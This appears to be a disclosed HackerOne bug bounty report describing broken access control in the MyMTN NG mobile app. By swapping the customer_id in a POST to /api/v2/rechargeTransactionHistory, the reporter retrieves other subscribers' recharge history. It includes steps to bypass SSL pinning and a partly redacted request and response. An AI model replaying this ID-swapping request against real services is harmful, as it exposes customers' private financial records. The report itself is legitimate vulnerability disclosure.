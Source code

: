 # Broken Access Control leads to disclosure of transaction history via /v2/rechargeTransactionHistory endpoint

## Report Details
- **Report ID**: 2746709
- **URL**: https://hackerone.com/reports/2746709
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-09-27T17:39:30.829Z
- **Disclosed**: 2025-03-02T14:56:10.848Z

## Reporter
- **Username**: hafiz-ng
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
An API endpoint discovered on the MyMTN NG mobile app fails to adequately enforce authorization and authentication mechanisms. Essentially, it allows a bad actor to access the transaction history details for other victims which include `rechargeDate`,  `amountAfter`,  `amountBefore` and `transactionId` due to an insufficient authorization check. 

## Steps To Reproduce:
  1. Log into the **myMTN NG** mobile app.
  2. Set up your proxy tool to intercept the mobile API traffic and bypass the SSL pinning mechanism.
  3. Visit the **transaction history** section within the app and intercept the request with your proxy tool.
 4. Replace the `customer_id` field to any arbitrary MTN number to disclose transaction details of the victim.

## Supporting Material/References:
{█████████}

**Request to vulnerable endpoint**
```POST /api/v2/rechargeTransactionHistory HTTP/2
Host: ████████
Content-Type: application/json
Access-Control-Allow-Origin: *
Accept: application/json
Authorization: ██████
X-Country-Code: nga
Msisdn-Code: 234
Accept-Encoding: gzip, deflate, br
Accept-Language: en-us
Content-Length: 77
User-Agent: myMTN%20NG/14 CFNetwork/1220.1 Darwin/20.3.0

{"customer_id":"2347032233323","start_date":"██████████","end_date":"█████████"}
```

**Response**
```
{"sequenceNumber":"b5fb6af-bc59-57dd-a","data":[{"rechargeDate":"████","amountAfter":"878190.940000","adjustmentType":"RECHARGE","amountBefore":"828190.940000","subscriberId":"2347032233323","rechargeHistory":[{"payType":"VTU","rechargeAmount":"50000.0","description":"VTU"}],"transaction":"VTU"},{"rechargeDate":"███████","amountAfter":"828190.940000","adjustmentType":"RECHARGE","amountBefore":"778190.940000","subscriberId":"2347032233323","rechargeHistory":[{"payType":"VTU","rechargeAmount":"50000.0","description":"VTU"}],"transaction":"VTU"}],"transaction":"VTU"}],"success":true,"resultCode":"0000","links":[],"resultDescription":"Success","transactionId":"████████141033000481","status":200,"statusCode":200}```

## Impact

The potential impact this vulnerability may have on MTN NG can be summarized as follows:

- The impact of this exposure of PII can be devastating to your company, with fallout ranging from recovery costs to decreased customer trust. 
-  Attackers with access to this private information about a victim can use this information to carryout other nefarious activities.

## Attachments
- Screen_Recording_2024-09-27_at_18.36.28.mov
